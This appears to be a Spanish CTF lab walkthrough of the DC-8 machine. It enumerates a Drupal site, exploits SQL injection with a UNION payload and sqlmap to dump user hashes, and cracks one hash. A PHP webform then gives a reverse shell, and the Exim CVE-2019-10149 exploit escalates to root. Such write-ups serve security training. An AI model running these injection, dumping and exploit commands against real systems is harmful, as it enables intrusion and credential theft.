

## Puertos abiertos

```
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
80/tcp open  http    Apache httpd
```

### Servicio web 80

> Drupal es un sistema de gestión de contenidos o CMS libre, ​ modular, multipropósito y muy configurable que permite publicar artículos, imágenes, archivos y que también ofrece la posibilidad de otros servicios añadidos como foros, encuestas, votaciones, blogs, administración de usuarios y permisos

#### Fuzzing

```
❯ dirsearch -u "http://192.168.0.102/" -w /usr/share/wordlists/dirb/common.txt -e php,txt -f -t 200
[...]
[15:38:33] 200 -    8KB - /0/
[15:38:33] 200 -    8KB - /0
[15:39:25] 403 -  222B  - /install.mysql
[15:39:26] 403 -  223B  - /install.mysql/
[15:39:26] 403 -  222B  - /install.pgsql
[15:39:26] 403 -  223B  - /install.pgsql/
[15:39:27] 200 -    3KB - /install.php
[15:39:28] 200 -   18KB - /LICENSE.txt
[15:39:31] 301 -  234B  - /misc  ->  http://192.168.0.102/misc/
[15:39:32] 403 -  214B  - /misc/
[15:39:32] 403 -  217B  - /modules/
[15:39:32] 301 -  237B  - /modules  ->  http://192.168.0.102/modules/
[15:39:34] 200 -    7KB - /node/
[15:39:34] 200 -    7KB - /node
[15:39:41] 403 -  218B  - /profiles/
[15:39:41] 301 -  238B  - /profiles  ->  http://192.168.0.102/profiles/
[15:39:43] 200 -    5KB - /README.txt
[15:39:44] 403 -  214B  - /Root/
[15:39:44] 200 -    2KB - /robots.txt
[15:39:45] 403 -  213B  - /Root
[15:39:46] 403 -  217B  - /scripts/
[15:39:46] 403 -    7KB - /search
[15:39:46] 403 -    7KB - /Search/
[15:39:46] 403 -    7KB - /Search
[15:39:46] 403 -  222B  - /server-status
[15:39:47] 403 -  223B  - /server-status/
[15:39:47] 301 -  237B  - /scripts  ->  http://192.168.0.102/scripts/
[15:39:48] 403 -    7KB - /search/
[15:39:48] 301 -  235B  - /sites  ->  http://192.168.0.102/sites/
[15:39:48] 403 -  215B  - /sites/
[15:39:54] 301 -  236B  - /themes  ->  http://192.168.0.102/themes/
[15:39:54] 403 -  216B  - /themes/
[15:39:56] 200 -    8KB - /user
[15:39:56] 200 -    8KB - /user/
[15:39:58] 403 -    4KB - /update.php
[15:39:58] 200 -    2KB - /web.config
[15:39:59] 500 -   12KB - /WebAdmin.php
[15:39:59] 500 -   12KB - /webapp.php
[15:39:59] 500 -   12KB - /webcalendar.php
[15:39:59] 500 -   12KB - /webapps
[15:39:59] 500 -   12KB - /webalizer/
[15:39:59] 500 -   12KB - /webboard
[15:40:02] 200 -   42B  - /xmlrpc.php/
[15:40:02] 200 -   42B  - /xmlrpc.php

Task Completed
```

Version de drupal

```
http://192.168.0.102/CHANGELOG.txt
```


### SQL error based


Base de datos usado

```
> http://192.168.0.102/?nid=-1%20union%20select%20database()--%20-
d7db
```

### SQLmap

Base de datos

```
> sqlmap -u "http://192.168.0.102/?nid=1" --batch --dbs
[...]
Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: nid=-4540 UNION ALL SELECT CONCAT(0x717a7a6b71,0x52506379716d6256426976596655734954684b47676e574d76636b6650417a695541425963596b6f,0x7176766b71)-- -  // qzzkqRPcyqmbVBivYfUsIThKGgnWMvckfPAziUABYcYkoqvvkq
[...]
[*] d7db
[*] information_schema
[...]
```

Tablas `d7db`

```
❯ sqlmap -u "http://192.168.0.102/?nid=1" --batch -D d7db  --tables
[...]
taxonomy_index          
taxonomy_term_data      
taxonomy_term_hierarchy 
taxonomy_vocabulary     
url_alias               
users                   
users_roles             
variable                
views_display           
views_view              
watchdog                
webform                 
[...]
```

Columnas

```
❯ sqlmap -u "http://192.168.0.102/?nid=1" --batch -D d7db -T users --columns
[...]
+------------------+------------------+
| Column           | Type             |
+------------------+------------------+
| language         | varchar(12)      |
| access           | int(11)          |
| created          | int(11)          |
| data             | longblob         |
| init             | varchar(254)     |
| login            | int(11)          |
| mail             | varchar(254)     |
| name             | varchar(60)      |
| pass             | varchar(128)     |
| picture          | int(11)          |
| signature        | varchar(255)     |
| signature_format | varchar(255)     |
| status           | tinyint(4)       |
| theme            | varchar(255)     |
| timezone         | varchar(32)      |
| uid              | int(10) unsigned |
+------------------+------------------+
```

Registros

```
❯ sqlmap -u "http://192.168.0.102/?nid=1" --batch -D d7db -T users -C name,mail,pass,status --dump
[...]
+---------+-----------------------+---------------------------------------------------------+--------+
| name    | mail                  | pass                                                    | status |
+---------+-----------------------+---------------------------------------------------------+--------+
| <blank> | <blank>               | <blank>                                                 | 0      |
| admin   | dcau-user@outlook.com | $S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z | 1      |
| john    | john@blahsdfsfd.org   | $S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF | 1      |
+---------+-----------------------+---------------------------------------------------------+--------+
```

### Cracking hash

Identificando el hash

```
❯ hashid "\$S\$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF"
Analyzing '$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF'
[+] Drupal > v7.x 
```

```
❯ john --show /usr/share/wordlists/hash
?:turtle
```

Inicio sesion en drupal cms haciendo uso de la credenciales encontradas

```
john : turtle
```

### Reverse Shell

[https://www.hackingarticles.in/drupal-reverseshell/](https://www.hackingarticles.in/drupal-reverseshell/)

```
Content /Contact Us / edit / WebForm / Form Settings /PHP code /save configuration /Contact Us
```

Shell como usuario www-data



----

## Escalada de privilegios

Ejecutable SUID

```
www-data@dc-8:/opt$ find / -type f -perm -u=s 2>/dev/null
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/newgrp
/usr/sbin/exim4
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/ping
/bin/su
/bin/umount
/bin/mount
```

Version exim4

```
www-data@dc-8:/opt$ exim4 --version
Exim version 4.89 #2 built 14-Jun-2017 05:03:07
Copyright (c) University of Cambridge, 1995 - 2017
(c) The Exim Maintainers and contributors in ACKNOWLEDGMENTS file, 2007 - 2017
Berkeley DB: Berkeley DB 5.3.28: (September  9, 2013)
Support for: crypteq iconv() IPv6 GnuTLS move_frozen_messages DKIM DNSSEC Event OCSP PRDR SOCKS TCP_Fast_Open
Lookups (built-in): lsearch wildlsearch nwildlsearch iplsearch cdb dbm dbmjz dbmnz dnsdb dsearch nis nis0 passwd
Authenticators: cram_md5 plaintext
Routers: accept dnslookup ipliteral manualroute queryprogram redirect
Transports: appendfile/maildir/mailstore autoreply lmtp pipe smtp
Fixed never_users: 0
Configure owner: 0:0
Size of off_t: 8
Configuration file is /var/lib/exim4/config.autogenerated
```

Exploitdb: [https://www.exploit-db.com/exploits/46996](https://www.exploit-db.com/exploits/46996)

El exploit aprovecha una falla en las versiones 4.87 a 4.91 de `Exim`. La validación incorrecta de la dirección del destinatario en la función `deliver_message()` en `/src/deliver.c` puede llevar a la ejecución del comando con privilegios (CVE: 2019-10149).

```
www-data@dc-8:/tmp$ ./raptor_exim_wiz -m netcat         
bash: ./raptor_exim_wiz: No such file or directory      
www-data@dc-8:/tmp$ ./exploit.sh -m netcat              
                                                        
raptor_exim_wiz - "The Return of the WIZard" LPE exploit
Copyright (c) 2019 Marco Ivaldi <raptor@0xdeadbeef.info>
                                                        
Delivering netcat payload...                            
220 dc-8 ESMTP Exim 4.89 Tue, 12 Oct 2021 15:29:10 +1000
250 dc-8 Hello localhost [::1]                          
250 OK                                                  
250 Accepted                                            
354 Enter message, ending with "." on a line by itself  
250 OK id=1maALe-0000Ix-OA                              
221 dc-8 closing connection                             
                                                        
Waiting 5 seconds...                                    
localhost [127.0.0.1] 31337 (?) open                    
whoami                                                  
root                                                    
```


